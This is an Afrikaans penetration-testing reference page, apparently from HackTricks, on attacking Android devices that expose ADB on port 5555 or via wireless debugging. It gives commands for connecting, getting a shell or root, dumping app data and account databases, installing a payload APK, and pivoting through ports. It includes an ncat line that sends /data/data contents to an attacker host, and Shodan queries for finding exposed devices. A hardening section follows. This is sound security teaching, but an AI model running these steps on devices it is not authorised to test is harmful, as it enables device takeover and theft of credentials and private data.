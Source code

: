 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Basiese Inligting

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) is 'n opdraglyn hulpmiddel om te kommunikeer met Android-gebaseerde toestelle en emulators. Tipiese aksies sluit in die installering van pakkette, foutopsporing, en die verkryging van 'n interaktiewe Unix-skaal op die toestel.

- Historiese standaard TCP-poort: 5555 (klassieke "adb tcpip" modus).
- Moderne Draadlose foutopsporing (Android 11+) gebruik TLS-paarvorming en mDNS-diensontdekking. Die verbindingspoort is dinamies en word ontdek via mDNS; dit mag nie 5555 wees nie. Paarvorming word gedoen met adb pair host:port gevolg deur adb connect. Sien die notas hieronder vir offensiewe implikasies.

Voorbeeld nmap vingerafdruk:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Verbind

As jy ADB blootgestel en bereikbaar vind, probeer om vinnig te verbind en te tel:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- As die toestel ADB-outeentifikasie afdwing (ro.adb.secure=1), sal jy vooraf geoutoriseer moet wees (USB RSA auth) of Android 11+ Draadlose foutopsporing paar (wat 'n eenmalige kode vereis wat op die toestel vertoon word).
- Sommige verskafferbeelde, ingenieurs-/gebruikersdebug-bou, emulators, TV's, STB's en ontwikkelingskits stel adbd bloot sonder outentifikasie of met adbd wat as root loop. In daardie gevalle sal jy tipies direk in 'n shell of root shell beland.

Vir 'n algemene ADB-opdragverwysing, sien:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Vinnige Post-Exploitasie

Sodra jy 'n shell het, valideer voorregte en SELinux-konteks:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Lys en vang data

- Lys derdeparty-apps en paaie:
```bash
pm list packages -3
pm path <pkg>
```
- As jy root het (adb root of su werk), kan jy direk toegang tot /data kry. Indien nie, verkies run-as vir debuggable apps:
```bash
# Sonder root, vir 'n debuggable app
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Met root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Nuttige stelseldokumente (root benodig):
- /data/system/users/0/accounts.db en verwante AccountManager data
- /data/misc/wifi/ (netwerk konfigurasies/sleutels op ouer weergawes)
- App-spesifieke SQLite DB's en shared_prefs onder /data/data/<pkg>

Jy kan dit gebruik om sensitiewe inligting te verkry (bv. app geheime). Vir notas oor Chrome data oorwegings, sien die probleem waarna verwys word [hier](https://github.com/carlospolop/hacktricks/issues/274).

### Kode-uitvoering en payload aflewering

- Installeer en outomaties runtime toestemmings toeken:
```bash
adb install -r -g payload.apk         # -g gee alle runtime perms soos verklaar in manifest
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Begin aktiwiteite/dienste/uitsendings direk:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Poort forwarding en pivotering

Selfs sonder root, kan adb plaaslike poorte na toestelpoorte en omgekeerd forward. Dit is nuttig om toegang te verkry tot dienste wat plaaslik op die toestel gebind is of om aanvaller dienste aan die toestel bloot te stel.

- Forward host->toestel (toegang tot 'n toestel-lokale diens vanaf jou gasheer):
```bash
adb forward tcp:2222 tcp:22       # As toestel SSH loop (bv. Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Blootstel app se plaaslike debug bediener
```
- Omgekeerde toestel->gasheer (laat die toestel 'n diens op jou gasheer bereik):
```bash
adb reverse tcp:1080 tcp:1080     # Toestel apps kan nou gasheer:1080 as 127.0.0.1:1080 bereik
```
- Lêer eksfiltrasie oor sokke (geen sdcard skrywe):
```bash
# Op gasheer: luister
ncat -lvp 9000 > dump.tar
# Op toestel: stuur gids as tar (root of run-as soos toepaslik)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Draadlose Foutopsporing (Android 11+)

Moderne Android implementeer TLS-beskermde draadlose foutopsporing met toestel-kant paar en mDNS ontdekking:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notas
- Poorte is dinamies; moenie aanvaar 5555 nie. mDNS-diensname lyk soos:
- _adb-tls-pairing._tcp (pareer)
- _adb-tls-connect._tcp (gepareerde verbinding)
- _adb._tcp (erf/plat)
- As mDNS gefiltreer is, kan klassieke USB-geassisteerde aktivering steeds op sommige weergawes werk: `adb tcpip 5555` dan `adb connect <ip>:5555` (tot herlaai).

Aanvallende implikasies: as jy met die toestel se UI kan interaksie hê (bv. fisiese toegang of mobiele MDM-misconfigurasie) om Draadlose foutopsporing in te skakel en die pareerkode te sien, kan jy 'n langtermyn-gepareerde ADB-kanaal sonder 'n kabel tot stand bring. Sommige OEM's stel ADB oor TCP in engineering/dev beelde beskikbaar sonder pareer—kontroleer altyd.

## Versterking / Opsporing

Verdedigers moet aanvaar dat enige bereikbare adbd (TCP) 'n kritieke risiko is.

- Deaktiveer ADB en Draadlose foutopsporing wanneer dit nie nodig is nie. Herroep USB-foutopsporing-oute op Ontwikkelaar opsies.
- Verseker dat netwerkbeleid inkomende TCP/5555 en mDNS-gebaseerde ADB-ontdekking op onbetroubare segmente blokkeer.
- Op toestelle onder jou beheer:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # deaktiveer TCP-luister (of gebruik: adb usb)
stop adbd; start adbd             # herbegin daemon
```
- Monitor vir mDNS-rekords `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` op korporatiewe netwerke en waarskuwings vir onverwagte 5555 luisteraars.
- Inventariseer vir onveilige weergawes: `getprop ro.debuggable`, `ro.build.type`, en `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Verwysings

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB oor Wi‑Fi, pareer en mDNS-diensname: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
